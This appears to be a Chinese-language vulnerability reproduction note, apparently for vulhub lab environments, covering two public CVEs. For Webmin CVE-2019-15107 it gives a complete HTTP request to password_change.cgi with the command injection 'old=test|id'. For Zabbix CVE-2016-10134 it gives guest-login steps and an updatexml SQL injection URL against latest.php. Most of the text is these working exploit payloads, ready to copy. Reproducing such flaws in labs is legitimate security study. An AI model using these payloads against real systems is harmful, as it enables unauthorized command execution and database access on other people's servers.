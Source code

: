 ## 


# Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

## **[漏洞说明](https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html)**


# **[Webmin 远程命令执行漏洞（CVE-2019-15107）](https://github.com/vulhub/vulhub/blob/master/webmin/CVE-2019-15107/README.zh-cn.md)**


## [漏洞复现](https://www.exploit-db.com/exploits/47230)(https://blog.firosolutions.com/exploits/webmin/)

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，`触发命令注入漏洞`。

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```



# **[zabbix latest.php SQL注入漏洞（CVE-2016-10134）](https://vulhub.org/#/environments/zabbix/CVE-2016-10134/)**

## **[漏洞复现]()**

用`账号guest（密码为空）`登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，`复制后16位字符：`

带入注入：

将这16个字符作为sid的值，访问
```
http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

